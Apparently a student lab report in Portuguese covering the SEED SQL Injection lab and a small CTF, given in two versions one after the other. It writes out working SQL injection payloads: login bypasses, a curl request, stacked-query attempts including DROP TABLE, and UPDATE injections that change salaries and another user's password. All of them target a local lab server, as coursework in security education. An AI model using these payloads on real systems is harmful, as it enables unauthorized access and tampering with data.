








# SQL Injection Attack Lab

## Environment Setup

A primeira coisa a fazer nesta Lab foi atribuir o URL `http://www.seed-server.com` ao ip 10.9.0.5 em `/etc/hosts`.<br>
Para isto, foi necessário correr o comando `gedit admin:///etc/hosts` e substituir os URL's.



De seguida utilizamos os comandos do docker descritos no guião.

## Task 1

Nesta task, o objetivo é familiarizarmo-nos com SQL e, para isso, a tarefa que foi atribuida consiste em selecionar todos os dados da Alice. Para isso, apenas foi preciso usar o comando:<br><br>
`SELECT * FROM credentials WHERE Name = "Alice";`<br>
tendo obtido os seguintes resultados:



## Task 2.1

Para esta task, recebemos uma página de login com um nome de usuário e uma palavra passe, e temos de fazer login como administrador do sistema.<br>
Ao usermos como username `admin'#`, conseguimos ter acesso sem ter de escrever password pois esta fica comentada.<br>



Com isto, o código executado foi:

```bash
SELECT ID, Name, EID, Salary, Birth, SSN, Address, Email, NickName, Password
FROM credential
WHERE Name = "admin'#"
```
<br>

O resultado foi o seguinte:<br>


## Task 2.2

Nesta task, o objetivo é o mesmo da `Task 2.1`, no entanto não podemos usar o website. Para isto, basta usar `curl` e fazer um pedido ao servidor. Como ' = %27 e # = %23, adaptando o comando, o resultado executado foi:<br><br>
`curl www.seed-server.com/unsafe_home.php?username=admin%27%23&Password=`
<br>

O resultado obtido foi o seguinte:<br>


## Task 2.3

Segundo o guião,  em SQL, ponto e vírgula (;)  é usado para separar dois statements. Para dar run a dois statements enquanto exploramos as vulnerabilidades como nas tarefas anteriores, corremos o seguinte código:<br><br>
`admin'; INSERT INTO credential VALUES (7, 'Jorge', '12345', 12345, '2/5', 1234512345, 'a', 'b', 'c', 'd', '63kmsdi40efod393291231');`<br>

Contudo, obtivemos um erro.


Após verificar a documentação de PHP, verificamos que não é possível correr várias queries numa `query()` statement. Para fazermos o pretendido, teriamos de substituir por  `multi_query()`.

## Task 3.1

Nesta tarefa, o objetivo é alterar o salário de um utilizador. Neste caso utilizamos a conta da Alice. É possível fazê-lo no próprio site, inserindo o pretendido em `NickName`.



## Task 3.2

Já nesta tarefa, foi possível modificar o salário do Boby, utilizando o mesmo esquema que na tarefa anterior, tendo usado o comando:<br><br>
`', Salary = 1  WHERE Name = 'Boby'#`<br>



## Task 3.3

Para alterar a password de outro utilizador, uma vez mais usou-se uma técnica idêntica às anteriores, correndo o código:<br><br>
`912345678', Password = '0707b407ea49b96faaa1ad126f56697dc974dcca' WHERE Name = 'Boby'`<br>

Neste caso, a password em questão é criptografia SHA1 correspondente a `notapassword`.


# SQL Injection Attack Lab

## Lab Environment
Para preparar o ambiente de desenvolvimento, temos inicialmente de descarregar os ficheiros fornecidos e preparar os contentores.

Para isso, recorremos ao comando <code>docker-compose build</code>, para os criar, e o alias <code>dcup</code>, para os inicializar.

## Task 1 
Na primeira tarefa, fomos encarregados de apresentar todas as informações para o usuário "Alice". Para alcançar esse objetivo, acessamos o contêiner MySQL utilizando o comando ```docksh c7```. Em seguida, executamos os comandos ```mysql -u root -pdees``` para entrar no MySQL como superusuário e ```sqllab_users``` de forma a selecionar o schema.

Ao analisar o conteúdo do arquivo ```sqllab_users.sql```, identificamos o comando correto para extrair as informações desejadas:

    SELECT * FROM `credential` WHERE Name = "Alice";

Assim obtivemos os dados da Alice:


### Task 2

#### Task 2.1

Ao examinar o site fornecido pelo Docker e o arquivo unsafe_home.php, notamos que a consulta apresenta uma vulnerabilidade. Isso ocorre porque o servidor gera dinamicamente o comando SQL usando strings não sanitizadas provenientes da entrada do usuário. Essa prática torna a aplicação suscetível a ataques de injeção de SQL:

    SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password FROM credential WHERE name='$input_uname' and Password='$hashed_pwd'

Aproveitando o fato de que o campo de senha é criptografado, é possível explorar a funcionalidade de pesquisa manipulando apenas o campo de nome de usuário. Ao inserir 'admin'# como entrada, garantimos acesso privilegiado, pois a verificação da chave de acesso se torna irrelevante ao ser comentada. Com isso, o código executado no lado do servidor é modificado da seguinte maneira:

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’

Portanto, conforme planejado, conseguimos efetuar login com a conta de administrador, abrindo a possibilidade de obter todos os dados dos usuários no aplicativo:


#### Task 2.2

Nesta tarefa, executei um ataque por meio de uma solicitação GET. Para obter todo o código HTML da página, incluindo todas as informações dos usuários, utilizei o seguinte comando malicioso:

    curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="

Como esperado o resultado foi o seguinte:


#### Task 2.3

Através do SQL, é possível utilizar ```;``` para inserir novos comandos. Ao empregar essa funcionalidade, busquei causar um efeito colateral no servidor. O comando utilizado foi o seguinte:

    admin'; DROP TABLE IF EXISTS admin; #

No entanto, esta operação não foi executada devido a um erro na base de dados. A extensão MySQL utilizada pelo PHP no servidor possui uma salvaguarda que impede a execução de várias consultas simultâneas, o que resultou na impossibilidade de concluir o ataque:


### Task 3

#### Task 3.1

Após efetuar o login com uma conta do sistema (username: Alice e password: seedalice), obtivemos acesso a uma página destinada à edição de informações pessoais. Essa página é gerenciada pelo arquivo fornecido ```unsafe_edit_backend.php```, que contém uma consulta construída dinamicamente com strings não sanitizadas provenientes da entrada do usuário. Nosso ataque envolve a manipulação do número de telefone. Utilizando a mesma técnica dos tópicos anteriores, conseguimos criar o seguinte código capaz de manipular o salário do usuário:

    960000000' ,Salary =' 56565656


É crucial notar que a aspas simples (') antes do valor do salário é fundamental para concluir a última instrução antes do WHERE. Em última análise, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address='$input_address',
    Password='$hashed_pwd',
    PhoneNumber='960000000',Salary='56565656' WHERE ID=$id;

Como esperado o salário foi modificado como o esperado:


### Task 3.2

Para alterar o valor do salário de outro usuário, utilizamos uma técnica semelhante à anterior. No entanto, criamos uma cláusula WHERE diferente e comentamos a existente no sistema para evitar interferências na pesquisa:
    
    960000000' ,Salary='0' WHERE Name='Boby'#


Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET
    nickname= '$input_nickname', 
    email='$input_email', 
    address= '$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', Salary='0' WHERE Name= 'Boby'# WHERE ID=$id;

Aqui podemos observar o valor de salário de Boby após o ataque:


#### Task 3.3

Para modificar a senha de outro usuário, aplicamos uma abordagem semelhante à anterior. No entanto, desta vez, o valor a ser alterado foi previamente criptografado com SHA1. Por exemplo, para a nova senha "segurança", o hash correspondente é 5a5f1484546b0f83f9e9166d6222e2e9743c037d.

    960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'#


Com esta entrada, o servidor executou o seguinte código:

    UPDATE credential SET|
    nickname='$input_nickname', 
    email='$input_email', 
    address='$input_address', 
    Password='$hashed_pwd',
    PhoneNumber='960000000', password='5a5f1484546b0f83f9e9166d6222e2e9743c037d' WHERE name='Boby'# WHERE ID=$id;

Assim, ao utilizarmos a nova senha para Boby, conseguimos entrar na conta dele:


## CTF - SQL Injection

O objetivo deste CTF era obter acesso à flag devido à vulnerabilidade existente na validação do login.

Ao analisar o ficheiro ```index.php``` foi possível verificar que a query executada para cada tentativa de login é a seguinte query.
```sql
    $username = $_POST['username'];
    $password = $_POST['password']; 
    $query = "SELECT username FROM user WHERE username = '".$username."' AND password = '".$password."'";
```

Como a validação é feita diretamente com os valores inseridos pelo utilizador, é possível explorar a vulnerabilidade de SQL Injection. Para tal, basta inserir o seguinte no campo de username e password.
```sql
    admin'--
    password
```

Ao introduzir ```admin'--``` como username, a query executada será a seguinte,

```sql
    SELECT username FROM user WHERE username = 'admin'--' AND password = 'password'
```

comentado o resto da query possibilitando fazer login com o utilizador admin, sem necessitar de saber a password.


Deste modo, a flag será corretamente obtida.